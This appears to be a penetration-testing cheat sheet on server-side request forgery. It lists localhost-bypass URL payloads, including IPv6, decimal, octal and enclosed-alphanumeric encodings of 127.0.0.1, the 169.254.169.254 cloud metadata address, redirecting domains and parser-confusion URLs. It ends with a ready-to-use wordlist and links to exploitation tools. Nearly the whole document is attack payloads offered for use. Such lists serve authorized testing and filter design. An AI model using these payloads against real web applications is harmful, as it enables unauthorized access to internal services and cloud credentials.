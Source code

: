 # Server Side Request Forgery (SSRF)

## Localhost Bypasses

### Using \[::]

```csharp
http://[::]:80/ #HTTP
http://[::]:25/ #SMTP 
http://[::]:22/ #SSH
http://[::]:3128/ #SQUID
http://0000::1:80/ #HTTP
http://0000::1:25/ #SMTP
http://0000::1:22/ #SSH
http://0000::1:3128/ #SQUID
```

### Using a domain redirection

```csharp
http://spoofed.burpcollaborator.net
http://localtest.me
http://customer1.app.localhost.my.company.127.0.0.1.nip.io
http://mail.ebc.apple.com redirect to 127.0.0.6 == localhost
http://bugbounty.dod.network redirect to 127.0.0.2 == localhost
```

### Using CIDR

```csharp
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
```

### Using decimal IP location

```csharp
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1
http://2852039166/  = http://169.254.169.254
```

### Using Octal IP

```csharp
http://0177.0.0.1/ = http://127.0.0.1
http://o177.0.0.1/ = http://127.0.0.1
http://0o177.0.0.1/ = http://127.0.0.1
http://q177.0.0.1/ = http://127.0.0.1
```

### Using IPv6/IPv4 Address Embedding

```csharp
http://[0:0:0:0:0:ffff:127.0.0.1]
```

### Using malformed urls

```csharp
localhost:+11211aaa
localhost:00011211aaaa
```

### Using weird address

```csharp
http://0/
http://127.1
http://127.0.1
```

### Using enclosed alphanumerics

```csharp
http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ = example.com

List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ ⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ ⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ ⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ ⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```

### Against a weak parser

```csharp
http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/
```

## All Payloads - Wordlist

```csharp
http://[::]:80/
http://0000::1:80/
http://spoofed.burpcollaborator.net
http://localtest.me
http://customer1.app.localhost.my.company.127.0.0.1.nip.io
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
http://2130706433/
http://0177.0.0.1/
http://[0:0:0:0:0:ffff:127.0.0.1]
localhost:+11211aaa
localhost:00011211aaaa
http://0/
http://127.1
http://127.0.1
http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ
http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/
```

## References

{% embed url="https://github.com/tarunkant/Gopherus" %}
Gopherus - Tool to generate gopher link for exploiting SSRF and gaining RCE in various servers
{% endembed %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery#bypass-localhost-with-cidr" %}
SSRF Payloads Repository
{% endembed %}

